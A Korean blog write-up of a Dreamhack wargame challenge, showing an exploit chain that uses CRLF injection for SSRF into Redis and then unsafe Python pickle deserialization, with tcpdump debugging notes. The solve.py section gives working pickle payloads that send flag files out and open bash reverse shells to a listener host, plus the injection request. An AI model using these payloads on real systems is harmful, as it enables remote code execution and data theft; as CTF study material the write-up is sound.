


한 마디: 웹해킹 재활 차원에서 쉬운 문제부터 조금씩 풀어보고 있습니다.

https://dreamhack.io/wargame/challenges/2679

:::tip[키워드]
- CRLF Injection
- Server-Side Request Forgery (SSRF) to Redis
- Redis RESP message
- Unsafe Deserialization (Python Pickle)
:::

## 웹 서비스의 기능 및 구조 분석



이 웹 서비스는 "입력받은 url 의 응답 지연과 상태코드를 측정"하는 하나의 기능만을 제공합니다. 해당 기능은 다음 순서로 동작합니다.

1. app.py > check_status()
   - `POST /check_status` 에서 body parameter 로 `url` 을 입력 받음.
2. checker.py > \_parse()
   - `url` 의 형식을 검사하고 protocol, host, port, path 를 파싱.
3. checker.py > check_host()
   - 해당 host, port 와 TCP 연결을 맺은 뒤, HEAD 메서드로 HTTP/1.1 요청을 raw 하게 구성하여 보내고 (`HEAD {path} HTTP/1.1 ...`), 응답 지연과 상태코드를 측정.
4. app.py > check_status()
   - 측정 결과를 pickle 로 serialize 한 뒤 redis queue 에 rpush 로 추가.
5. worker.py > run_forever()
   - 주기적으로 redis queue 에서 값을 pop 해와서 pickle deserialize 한 뒤, 포함된 url 에 GET requests 를 전송.
   - 하지만 GET 의 response 로 별도의 작업을 수행하지는 않음.

웹 서비스의 인스턴스 구성은 다음과 같습니다.

<details>
<summary>docker-compose.yml</summary>

```yaml
services:
  redis:
    image: redis:7-alpine
    container_name: opsmon-redis
    restart: always
    networks: [opsmon_net]

  web:
    build: .
    container_name: opsmon-web
    command: python app.py
    ports:
      - "5009:5000"
    depends_on: [redis]
    restart: always
    networks: [opsmon_net]

  worker:
    build: .
    container_name: opsmon-worker
    command: python worker.py
    depends_on: [redis]
    restart: always
    networks: [opsmon_net]

networks:
  opsmon_net:
    driver: bridge
```
</details>

subnet: `opsmon_net`

1. `web`: app.py 가 실행되어 Flask app 을 서빙하고 있는 컨테이너. "web\:5000" 로 접근 가능.
2. `redis`: Key-Value 스타일의 In-memory DB 인 redis 가 redis default port 인 6379번에서 서빙되고 있는 컨테이너. "redis\:6379" 로 접근 가능.
3. `worker`: worker.py 가 실행되어 주기적으로 `redis` 에서 값을 받아오는 컨테이너. 열어둔 포트 X.

## 취약점 분석

### 1. CRLF injection

기능이 하나 밖에 없는 서비스다보니 공격의 여지가 있을 만한 부분이 비교적 쉽게 좁혀집니다.

바로 `checker.py > check_host()` 에서 사용자의 입력인 `url` 의 일부인 `path` 를 포함하는 raw TCP payload 를 구성해서 임의의 `(host, port)` 에 보내는 부분인데요.

```python file="checker.py"
def check_host(self, url: str) -> CheckResult:
	# ...
	scheme, host, port, path = self._parse(url)

    req = (
        f"HEAD {path} HTTP/1.1\r\n" # CAUTION: <- Injected CRLF (\r\n) may create malicious HTTP request! (or even non-HTTP requests)
        f"Host: {host}\r\n"
        f"User-Agent: OpsMon/1.0\r\n"
        f"Connection: close\r\n"
        f"\r\n"
    ).encode("utf-8")

    # ...
    socket_connection.sendall(req)
    data = socket_connection.recv(config.HTTP_READ_MAX) # 4096

	# ...
```

**_"CRLF injection"_**

많은 application layer 의 프로그램들은 CRLF (`\r\n`) 를 참고해서 HTTP 요청 등에서 각 줄을 구분합니다. 그런데 `path` 에 그런 CRLF 가 포함되면 본래 HEAD 요청이었던 `req` 가 다르게 해석될 여지가 생깁니다. 이런 공격을 CRLF injection 이라고 합니다.

`path` 에 CRLF 가 포함되는지를 검증하면 문제가 발생하지 않지만, 아래의 `_parse()` 를 보면 `path` 에 관한 검증은 `url` 의 길이 제한 (2048자 이하) 밖에 없어서 CRLF injection 에 취약함을 알 수 있습니다.

<details>
<summary> checker.py > _parse() 전체 코드 </summary>

```python file="checker.py"
def _parse(self, url: str) -> Tuple[str, str, int, str]:
    if not url or len(url) > config.MAX_URL_LEN:
        raise ValueError("bad url")

    if "://" in url:
        scheme, rest = url.split("://", 1)
    else:
        scheme = "http"
        rest = url

    if scheme not in ["http", "https"]:
        raise ValueError("Only http/https allowed")

    if "/" in rest:
        host_port, path = rest.split("/", 1)
        path = "/" + path
    else:
        host_port = rest
        path = "/"

    if ":" in host_port:
        host, port_str = host_port.split(":", 1)
        try:
            port = int(port_str)
        except ValueError:
            port = 80
    else:
        host = host_port
        port = 80 if scheme == "http" else 443

    return scheme, host, port, path
```

</details>

### 2. Pickle deserialization, 아직은 괜찮아보이지만.. 정말 괜찮을까?

`worker.py` 를 보면 redis 큐에서 pop 한 결과를 `pickle.loads()` 로 deserialize 합니다.

```python file="worker.py"
def run_forever() -> None:
    # ...
    while True:
        try:
            item = r.blpop(config.QUEUE_NAME, timeout=5)
            if not item:
                continue

            _, raw = item
            signal.alarm(30)
            try:
                job = pickle.loads(raw)
                # ...
```

Pickle deserialization 은 **"신뢰할 수 없는 값을 deserialize 했을 때"** (e.g., `pickle.loads(신뢰할수없는값)`) RCE 로 이어질 수 있는 위험한 기능입니다.

이는 [파이썬 공식 라이브러리 문서](https://docs.python.org/3/library/pickle.html)에도 강력하게 경고 문구가 적혀있을 정도로 유명한 취약 패턴입니다.



예를 들어, 아래처럼 만든 pickle bytes 를 `pickle.loads()` 에 넣으면 docker host 의 8009 포트에 리버스쉘을 연결할 수 있습니다.

```python
class Exploit(object):
    def __reduce__(self):
        return (os.system, ("bash -lc '/bin/bash -l > /dev/tcp/host.docker.internal/8009 0<&1 2>&1'",))

malicious_pickle = pickle.dumps(Exploit())
# ...
pickle.loads(malicious_pickle) # -> HACKED!
```

`worker.py` 의 `pickle.loads()` 는 redis 큐에서 가져온 값만 deserialize 하기 때문에 언뜻 보기에는 괜찮아보일 수 있는데요.

만약 redis 큐에 malicious pickle bytes 를 넣을 수 있으면 어떻게 될까요?

### 3. Inject malicious pickle bytes to redis

계획은 이렇습니다.

1. `POST /check_status` 시에 `url` 인자를 잘 구성해서 CRLF injection 으로 redis 에 malicious pickle bytes 이 들어가도록 한다.
2. `worker.py` 에서 해당 pickle bytes 를 deserialize 하면 RCE 를 얻는다.

`app.py` 에서는 redis API 인 RPUSH 를 써서 redis 큐에 값을 넣고 있는데, 이와 같은 동작을 TCP payload 로는 어떻게 재현할 수 있을까요?

```python file="app.py" caption="redis API 를 활용해서 redis 큐에 값을 넣고 있는 app.py"
r = redis.Redis(host=config.REDIS_HOST, port=config.REDIS_PORT, db=config.REDIS_DB)
# ...
payload = pickle.dumps(job)
r.rpush(config.QUEUE_NAME, payload)
```

그 답은 RESP 프로토콜에 있습니다. (참고: [Redis 공식 홈페이지: Redis serialization protocol specification](https://redis.io/docs/latest/develop/reference/protocol-spec/))

[공식 문서](https://redis.io/docs/latest/develop/reference/protocol-spec/#sending-commands-to-a-redis-server) 에 나오는 예시를 보면 이해하기 수월합니다.

```plaintext caption="'LLEN mylist' 의 RESP 형태 (Arrays (\*) of Bulk strings ($))"
*2\r\n
$4\r\n
LLEN\r\n
$6\r\n
mylist\r\n
```


```plaintext caption="RESP 메시지 구조의 일반화"
*{Command 인자 수 + 1}\r\n
${Command 길이}\r\n{Command}\r\n
${인자 1의 길이}\r\n{인자 1}\r\n
${인자 2의 길이}\r\n{인자 2}\r\n
...
${인자 n의 길이}\r\n{인자 n}\r\n
```

이에 맞게 다음과 같이 RPUSH command 의 RESP 형태를 구성하는 코드를 구현할 수 있습니다.

```python
from typing import Union

def _bulk(b: bytes) -> bytes:
    return b"$" + str(len(b)).encode() + b"\r\n" + b + b"\r\n"

def build_rpush(key: Union[str, bytes], value: Union[str, bytes]) -> bytes:
    if isinstance(key, str):
        key_b = key.encode()
    else:
        key_b = key
    if isinstance(value, str):
        val_b = value.encode()
    else:
        val_b = value

    # RPUSH key value
    parts = [b"RPUSH", key_b, val_b]
    payload = b"*" + str(len(parts)).encode() + b"\r\n" + b"".join(_bulk(p) for p in parts)
    return payload
```

이전의 CRLF injection 상황을 되돌아보면 이렇습니다.

```
HEAD {path} HTTP/1.1\r\n
Host: {host}\r\n
User-Agent: OpsMon/1.0\r\n
Connection: close\r\n
\r\n
```

저희는 패킷을 redis에 보낼 것이기 때문에 `host` 는 "redis" 로 고정입니다. 그러면 `path` 에 CRLF 와 RESP payload 를 적절히 넣어봅시다.

> "HEAD `\r\n{RESP_payload}\r\nHEAD /` HTTP/1.1\r\n ..."


```plaintext caption="redis 에 전달되는 TCP payload"
HEAD \r\n
*3\r\n
$5\r\n
RPUSH\r\n
$11\r\n
opsmon:jobs\r\n
${len(malicious_pickle)}\r\n
{malicious_pickle}\r\n
HEAD / HTTP/1.1\r\n
Host: redis\r\n
User-Agent: OpsMon/1.0\r\n
Connection: close\r\n
\r\n
```

이렇게 되면 redis 는 `HEAD \r\n` 을 읽고 무시한 뒤에 `*3\r\n ... {malicious_pickle}\r\n` 의 RESP payload 를 처리해서 `malicious_pickle` 를 큐에 넣게 되고, 이것이 `worker.py` 에 의해 unsafe pickle deserialization 을 야기할 수 있습니다.

:::note[왜 HEAD \r\n 이 무시되는지 궁금하시나요?]
이 글 마지막의 [부록: redis server 의 TCP payload 핸들링 방식](#부록-2-redis-server-의-tcp-payload-핸들링-방식) 을 확인해주세요🙂
:::

계획은 충분히 세웠으니 실제 공격 코드를 구현합시다.

## 공격 코드 (익스플로잇)

실제 공격 코드를 테스트해보니 한 가지 이슈가 있었습니다.

### pickle 에 포함된 0x80 이상의 non-ascii 바이트가 전달이 잘 안 되는 이슈

아래와 같이 `req` 는 utf-8 로 인코딩된 뒤에 redis 로 전달됩니다.

```python file="checker.py"
req = (
    f"HEAD {path} HTTP/1.1\r\n" # <- Inject CRLF + RESP (containing pickle bytes)
    f"Host: {host}\r\n"
    f"User-Agent: OpsMon/1.0\r\n"
    f"Connection: close\r\n"
    f"\r\n"
).encode("utf-8")

# ...
socket_connection.sendall(req)
```

이때 path 에 0x80 이상의 non-ascii 바이트들이 있으면, 위 인코딩을 거치면서 앞에 의도치 않은 바이트가 삽입될 수 있습니다. 예를 들어, "\x80" 을 utf-8 로 인코딩을 하면 b"\xc2\x80" 이 되어버립니다.

<details>
<summary>어떻게든 \x80 이 유지되게 할 수는 없을까?</summary>

HTTP request 의 Content-Type 이나 charset 을 다양하게 바꿔가며 (e.g., latin-1) 이런저런 시도를 해봤습니다.

하지만, 최종적으로 Flask 가 request 를 파싱해서 python string 형태의 "\x80" 와 byte 형태의 b"\x80" 어느 쪽을 반환하게 해도 \x80 을 온전하게 유지할 수는 없었습니다.

```python
>>> py_str_0x80 = "\x80"
>>> py_str_0x80, len(py_str_0x80)
('\x80', 1)
>>> req = f"HEAD {py_str_0x80}"
>>> req, len(req)
('HEAD \x80', 6)
>>> req.encode('utf-8')
b'HEAD \xc2\x80'

>>> byte_0x80 = b"\x80"
>>> byte_0x80, len(byte_0x80)
(b'\x80', 1)
>>> req = f"HEAD {byte_0x80}"
>>> req, len(req)
("HEAD b'\\x80'", 12)
>>> req.encode('utf-8')
b"HEAD b'\\x80'"
```

</details>

이렇게 의도치 않은 바이트가 추가되면 RESP payload 나 pickle bytes 가 망가져버려 redis RPUSH 나 pickle deserialization 시에 오류가 발생하는데요. 아쉽게도 일반적인 `pickle.dumps()` 는 non-ascii 바이트 (0x80~0xff) 를 포함하는 pickle bytes 를 만들어서 실제 익스플로잇이 번거로워집니다.

```python
>>> pickle.dumps("abc") # -> \x80, \x95, \x8c, \x94 가 non-ascii
b'\x80\x04\x95\x07\x00\x00\x00\x00\x00\x00\x00\x8c\x03abc\x94.'
```

다행히도, "ascii-only pickle" 로 구글링을 해보니 `pickle.dumps(obj, protocol=0)` 처럼 낮은 버전의 pickle protocol 을 쓰면 해결할 수 있다고 합니다.

### solve.py

아래는 리버스쉘을 여는 실제 공격 코드입니다. `/dev/tcp/1.2.3.4/8009` 의 `1.2.3.4/8009` 대신 `{리버스쉘을 받을 ip}/{port}` 를 사용하면 됩니다.

```python
import pickle, os

# send flag to listener
class Exploit1(object):
    def __reduce__(self):
        return (os.system, (
'''cat /flag/flag_* | python -c '
import socket, sys
data = sys.stdin.buffer.read()
s = socket.socket()
s.connect(("host.docker.internal", 8009))
s.sendall(data)
s.close()'
''',))

# reverse shell for local env (with no use of netcat)
class Exploit2(object):
    def __reduce__(self):
        return (os.system, ("bash -lc '/bin/bash -l > /dev/tcp/host.docker.internal/8009 0<&1 2>&1'",))

# reverse shell for remote env (with no use of netcat)
class Exploit3(object):
    def __reduce__(self):
        return (os.system, ("bash -lc '/bin/bash -l > /dev/tcp/1.2.3.4/8009 0<&1 2>&1'",))


from typing import Union

def _bulk(b: bytes) -> bytes:
    return b"$" + str(len(b)).encode() + b"\r\n" + b + b"\r\n"

def build_rpush(key: Union[str, bytes], value: Union[str, bytes]) -> bytes:
    if isinstance(key, str):
        key_b = key.encode()
    else:
        key_b = key
    if isinstance(value, str):
        val_b = value.encode()
    else:
        val_b = value

    # RPUSH key value
    parts = [b"RPUSH", key_b, val_b]
    payload = b"*" + str(len(parts)).encode() + b"\r\n" + b"".join(_bulk(p) for p in parts)
    return payload

def solve_remote():
    import requests as r

    HOST = "http://host3.dreamhack.games:8228/"

    pickle_data = pickle.dumps(Exploit3(), protocol=0)
    inject_payload = build_rpush("opsmon:jobs", pickle_data)

    split_req1_payload = b"\r\n"
    split_req2_payload = b"\r\nHEAD /"

    post_data = {"url": b"http://redis:6379/" + split_req1_payload + inject_payload + split_req2_payload}
    res = r.post(f"{HOST}/check_status", data=post_data)
    print(f"{res.status_code=}")

if __name__ == "__main__":
    solve_remote()
```

:::note[참고]

**Opsmon 문제의 풀이는 여기까지입니다!**

풀이만 궁금하셨던 분은 나머지 내용인 부록 1/2 는 건너뛰셔도 됩니다.

부록에는 문제 풀이 중에 저와 비슷한 이슈를 겪으신 분을 위해 제 접근 방식과 학습 내용이 포함되어 있습니다.
:::

-----


## 부록 1: 실패 기록 - RPUSH RESP 가 redis 에 전달이 안 되는 이슈

처음에는 CRLF injection payload 를 다음과 같이 구성한 뒤 로컬 docker 환경에서 테스트를 했는데, 아무리 해도 redis 에 injected RPUSH 가 전달되지 않는 이슈가 있었습니다.

```plaintext caption="실패한 CRLF injection payload"
HTTP/1.1\r\n
Host: redis\r\n
User-Agent: OpsMon/1.0\r\n
Connection: keep-alive\r\n
\r\n
*3\r\n
$5\r\n
RPUSH\r\n
...
```

이에 다음 순서로 디버깅을 했습니다.

### 디버깅 1. tcpdump on redis container

> 의문점: 내가 만든 TCP payload 가 redis 에 전달은 됐을까?

이를 확인하기 위해 redis container 에서 tcpdump 를 떠서, CRLF injection 이 수행될 때 redis container 의 6379 포트에 전달되는 TCP 패킷을 관찰해봤습니다.

<details>
<summary>tcpdump 확인 내용</summary>

아래의 tcpdump 에서 "RPUSH 키워드가 보이는" 패킷3과 패킷5에 주목해볼 수 있습니다.

```plaintext wrap caption="redis container 내부. 편의상 inbound tcp packet 만 표시합니다."
/data # tcpdump -i any -s 0 -XX 'tcp port 6379'
(패킷1) 13:12:57.099265 eth0  In  IP opsmon-web.src_opsmon_net.55730 > 96982f3e148d.6379: Flags [S], seq 2048583710, win 64240, options [mss 1460,sackOK,TS val 498537893 ecr 0,nop,wscale 7], length 0
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 003c 401f 4000 4006 a26a  ....E..<@.@.@..j
	0x0020:  ac16 0004 ac16 0002 d9b2 18eb 7a1a e81e  ............z...
	0x0030:  0000 0000 a002 faf0 5861 0000 0204 05b4  ........Xa......
	0x0040:  0402 080a 1db7 15a5 0000 0000 0103 0307  ................
...
(패킷2) 13:12:57.099476 eth0  In  IP opsmon-web.src_opsmon_net.55730 > 96982f3e148d.6379: Flags [.], ack 1, win 502, options [nop,nop,TS val 498537893 ecr 24693171], length 0
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 0034 4020 4000 4006 a271  ....E..4@.@.@..q
	0x0020:  ac16 0004 ac16 0002 d9b2 18eb 7a1a e81f  ............z...
	0x0030:  f0ac 2a8c 8010 01f6 5859 0000 0101 080a  ..*.....XY......
	0x0040:  1db7 15a5 0178 c9b3                      .....x..
// [!code highlight:19]
(패킷3) 13:12:57.099709 eth0  In  IP opsmon-web.src_opsmon_net.55730 > 96982f3e148d.6379: Flags [P.], seq 1:202, ack 1, win 502, options [nop,nop,TS val 498537893 ecr 24693171], length 201: RESP "HEAD / HTTP/1.1" "Host: redis" "User-Agent: OpsMon/1.0" "Connection: keep-alive" "RPUSH" "opsmon:jobs" "AAAAA" "HEAD / HTTP/1.1" "Host: redis" "User-Agent: OpsMon/1.0" "Connection: close"
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 00fd 4021 4000 4006 a1a7  ....E...@!@.@...
	0x0020:  ac16 0004 ac16 0002 d9b2 18eb 7a1a e81f  ............z...
	0x0030:  f0ac 2a8c 8018 01f6 5922 0000 0101 080a  ..*.....Y"......
	0x0040:  1db7 15a5 0178 c9b3 4845 4144 202f 2048  .....x..HEAD./.H
	0x0050:  5454 502f 312e 310d 0a48 6f73 743a 2072  TTP/1.1..Host:.r
	0x0060:  6564 6973 0d0a 5573 6572 2d41 6765 6e74  edis..User-Agent
	0x0070:  3a20 4f70 734d 6f6e 2f31 2e30 0d0a 436f  :.OpsMon/1.0..Co
	0x0080:  6e6e 6563 7469 6f6e 3a20 6b65 6570 2d61  nnection:.keep-a
	0x0090:  6c69 7665 0d0a 0d0a 2a33 0d0a 2435 0d0a  live....*3..$5..
	0x00a0:  5250 5553 480d 0a24 3131 0d0a 6f70 736d  RPUSH..$11..opsm
	0x00b0:  6f6e 3a6a 6f62 730d 0a24 350d 0a41 4141  on:jobs..$5..AAA
	0x00c0:  4141 0d0a 0d0a 4845 4144 202f 2048 5454  AA....HEAD./.HTT
	0x00d0:  502f 312e 310d 0a48 6f73 743a 2072 6564  P/1.1..Host:.red
	0x00e0:  6973 0d0a 5573 6572 2d41 6765 6e74 3a20  is..User-Agent:.
	0x00f0:  4f70 734d 6f6e 2f31 2e30 0d0a 436f 6e6e  OpsMon/1.0..Conn
	0x0100:  6563 7469 6f6e 3a20 636c 6f73 650d 0a0d  ection:.close...
	0x0110:  0a                                       .
...
(패킷4) 13:12:57.100755 eth0  In  IP opsmon-web.src_opsmon_net.55730 > 96982f3e148d.6379: Flags [F.], seq 202, ack 2, win 502, options [nop,nop,TS val 498537894 ecr 24693172], length 0
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 0034 4022 4000 4006 a26f  ....E..4@"@.@..o
	0x0020:  ac16 0004 ac16 0002 d9b2 18eb 7a1a e8e8  ............z...
	0x0030:  f0ac 2a8d 8011 01f6 5859 0000 0101 080a  ..*.....XY......
	0x0040:  1db7 15a6 0178 c9b4                      .....x..
...
// [!code highlight:26]
(패킷5) 13:12:57.102060 eth0  In  IP opsmon-web.src_opsmon_net.55566 > 96982f3e148d.6379: Flags [P.], seq 2648589985:2648590299, ack 4279611681, win 502, options [nop,nop,TS val 498537896 ecr 24353072], length 314: RESP "RPUSH" "opsmon:jobs" "M-^@^DM-^U^F^A^@^@^@^@^@^@}M-^T(M-^L^BidM-^TM-^L 43d36916db9944219d5bbe8107384159M-^TM-^L^CurlM-^TM-^LM-^Phttp://redis:6379/ HTTP/1.1^M^JHost: redis^M^JUser-Agent: OpsMon/1.0^M^JConnection: keep-alive^M^J^M^J*3^M^J$5^M^JRPUSH^M^J$11^M^Jopsmon:jobs^M^J$5^M^JAAAAA^M^J^M^JHEAD /M-^TM-^L^Iqueued_atM-^TJYM-tM-^AiM-^L^Lcheck_resultM-^T}M-^T(M-^L^BokM-^TM-^IM-^L^FstatusM-^TNM-^L^GlatencyM-^TK^Duu."
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 016e 6247 4000 4006 7f10  ....E..nbG@.@...
	0x0020:  ac16 0004 ac16 0002 d90e 18eb 9dde 46a1  ..............F.
	0x0030:  ff15 b121 8018 01f6 5993 0000 0101 080a  ...!....Y.......
	0x0040:  1db7 15a8 0173 9930 2a33 0d0a 2435 0d0a  .....s.0*3..$5..
	0x0050:  5250 5553 480d 0a24 3131 0d0a 6f70 736d  RPUSH..$11..opsm
	0x0060:  6f6e 3a6a 6f62 730d 0a24 3237 330d 0a80  on:jobs..$273...
	0x0070:  0495 0601 0000 0000 0000 7d94 288c 0269  ..........}.(..i
	0x0080:  6494 8c20 3433 6433 3639 3136 6462 3939  d...43d36916db99
	0x0090:  3434 3231 3964 3562 6265 3831 3037 3338  44219d5bbe810738
	0x00a0:  3431 3539 948c 0375 726c 948c 9068 7474  4159...url...htt
	0x00b0:  703a 2f2f 7265 6469 733a 3633 3739 2f20  p://redis:6379/.
	0x00c0:  4854 5450 2f31 2e31 0d0a 486f 7374 3a20  HTTP/1.1..Host:.
	0x00d0:  7265 6469 730d 0a55 7365 722d 4167 656e  redis..User-Agen
	0x00e0:  743a 204f 7073 4d6f 6e2f 312e 300d 0a43  t:.OpsMon/1.0..C
	0x00f0:  6f6e 6e65 6374 696f 6e3a 206b 6565 702d  onnection:.keep-
	0x0100:  616c 6976 650d 0a0d 0a2a 330d 0a24 350d  alive....*3..$5.
	0x0110:  0a52 5055 5348 0d0a 2431 310d 0a6f 7073  .RPUSH..$11..ops
	0x0120:  6d6f 6e3a 6a6f 6273 0d0a 2435 0d0a 4141  mon:jobs..$5..AA
	0x0130:  4141 410d 0a0d 0a48 4541 4420 2f94 8c09  AAA....HEAD./...
	0x0140:  7175 6575 6564 5f61 7494 4a59 f481 698c  queued_at.JY..i.
	0x0150:  0c63 6865 636b 5f72 6573 756c 7494 7d94  .check_result.}.
	0x0160:  288c 026f 6b94 898c 0673 7461 7475 7394  (..ok....status.
	0x0170:  4e8c 076c 6174 656e 6379 944b 0475 752e  N..latency.K.uu.
	0x0180:  0d0a                                     ..
...
(패킷6) 13:12:57.102521 eth0  In  IP opsmon-web.src_opsmon_net.55566 > 96982f3e148d.6379: Flags [.], ack 5, win 502, options [nop,nop,TS val 498537896 ecr 24693174], length 0
	0x0000:  0800 0000 0000 0034 0001 0006 0242 ac16  .......4.....B..
	0x0010:  0004 0000 4500 0034 6248 4000 4006 8049  ....E..4bH@.@..I
	0x0020:  ac16 0004 ac16 0002 d90e 18eb 9dde 47db  ..............G.
	0x0030:  ff15 b125 8010 01f6 5859 0000 0101 080a  ...%....XY......
	0x0040:  1db7 15a8 0178 c9b6                      .....x..
...
```

우선, 패킷5는 CRLF injection 이 터지는 Raw socket API 에 의한 패킷이 아닙니다. `id`, `url`, `queued_at` 등의 키워드가 보이는 것을 보면 [서비스 기능 분석](#웹-서비스의-기능-및-구조-분석) 의 4번 기능에 해당하는 아래 코드에 의한 패킷으로 보입니다. 이는 정당한 redis API 를 사용하고 있어서 CRLF injection 에 취약하지 않아보입니다.

```python file="app.py"
# ...
result = checker.check_host(url)

job = {
    "id": uuid.uuid4().hex,
    "url": url,
    "queued_at": int(time.time()),
    "check_result": {
        "ok": result.ok,
        "status": result.status_code,
        "latency": result.latency_ms
    }
}

payload = pickle.dumps(job)
r.rpush(config.QUEUE_NAME, payload)
# ...
```

그리고 순서상 패킷3이 CRLF injection 에 취약했던 아래의 Raw socket API 에 의한 패킷으로 보이고, 패킷3에는 제가 삽입하려한 RESP payload 인 `*3\r\n$5\r\nRPUSH\r\n...` 가 온전히 포함되어있습니다.

```python file="checker.py"
def check_host(self, url: str) -> CheckResult:
	# ...
	scheme, host, port, path = self._parse(url)

    req = (
        f"HEAD {path} HTTP/1.1\r\n" # CAUTION: <- Injected CRLF (\r\n) may create malicious HTTP request! (or even non-HTTP requests)
        f"Host: {host}\r\n"
        f"User-Agent: OpsMon/1.0\r\n"
        f"Connection: close\r\n"
        f"\r\n"
    ).encode("utf-8")

    # ...
    socket_connection.sendall(req) # <- 패킷3 전송
    data = socket_connection.recv(config.HTTP_READ_MAX) # 4096

	# ...
```

</details>

tcpdump 를 통해 확인해본 결과, CRLF injection 을 통해 삽입하려한 RESP payload 인 `*3\r\n$5\r\nRPUSH\r\n...` 는 무사히 redis 에 전달된 것을 확인했습니다. 그렇다면 공격 실패의 원인은 송신자인 opsmon-web 이 아니라 수신자인 redis 측에 있을 것으로 추측할 수 있습니다.

그러면, redis 측에서 마저 디버깅을 이어가봅시다.


### 디버깅 2. redis container log

공격 실패 원인이 redis 측에 있다고 생각했을 때, 먼저 떠오른 것은 redis 에서 출력되는 로그입니다.

> 의문점: 혹시 redis 로그에 이 이슈와 관련된 내용이 있을까? redis 의 log level 을 조절해볼까?

아니나 다를까 아주 큰 힌트가 되는 로그가 있었습니다.

```plaintext wrap
1:M 03 Feb 2026 13:35:56.726 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection from 172.22.0.4:55738 aborted.
```

CRLF injection payload 에 포함되어있던 `Host:` 가 원인이었습니다. `Host:` 를 제거하여 아래처럼 payload 를 구축하니, 공격을 위해 삽입한 RESP payload 가 성공적으로 실행되는 것을 확인할 수 있었습니다.

```plaintext caption="성공한 CRLF injection payload"
HTTP/1.1\r\n
// [!code --]
Host: redis\r\n
User-Agent: OpsMon/1.0\r\n
Connection: keep-alive\r\n
\r\n
*3\r\n
$5\r\n
RPUSH\r\n
...
```

지금 생각해보면 이 디버깅이 앞의 tcpdump 디버깅보다 훨씬 쉬운데, tcpdump 디버깅을 먼저하느라 시간 낭비가 심했던 점이 많이 아쉽습니다.


-----


## 부록 2: redis server 의 TCP payload 핸들링 방식

문제를 풀면서 다음 궁금증이 생겼었습니다.

> redis server 는 TCP 연결로 전달받는 payload 를 어떻게 핸들링할까?

관련된 redis 소스 코드를 살펴봅시다. 우선 제 환경에서는 redis 7.4.7 이 사용되었습니다.

```bash
$ redis-cli INFO server | grep -e "redis_version" -e "redis_build_id"
redis_version:7.4.7
redis_build_id:c2f544f0759e4e85
```

redis 는 대부분 오픈소스로 관리되기 때문에, 해당 버전에 맞는 원본 코드를 깃헙에서 확인할 수 있습니다.
- https://github.com/redis/redis/blob/7.4.7/src/networking.c
- https://github.com/redis/redis/blob/7.4.7/src/server.c

아래 참고자료들도 같이 확인하면 좋습니다.
- RESP 관련 동작 흐름을 소스코드 단위로 잘 설명한 블로그 (2023년 2월): https://wangziqi2013.github.io/article/2023/02/12/redis-notes.html
- RESP inline command (vs normal command): https://redis.io/docs/latest/develop/reference/protocol-spec/#inline-commands

### redis server 코드 살펴보기

redis 가 TCP payload 을 어떻게 핸들링하는지는 networking.c 의 [processInputBuffer()](https://github.com/redis/redis/blob/7.4.7/src/networking.c#L2582-L2589) 부터 살펴보면 알 수 있습니다.

```c file="/src/networking.c"
/* This function is called every time, in the client structure 'c', there is
 * more query buffer to process, because we read more data from the socket
 * or because a client was blocked and later reactivated, so there could be
 * pending query buffer, already representing a full command, to process.
 * return C_ERR in case the client was freed during the processing */
int processInputBuffer(client *c) {
    /* Keep processing while there is something in the input buffer */
    while(c->qb_pos < sdslen(c->querybuf)) {
        // ...
        /* Determine request type when unknown. */
        if (!c->reqtype) {
            if (c->querybuf[c->qb_pos] == '*') {
                c->reqtype = PROTO_REQ_MULTIBULK; // -> RESP 프로토콜
            } else {
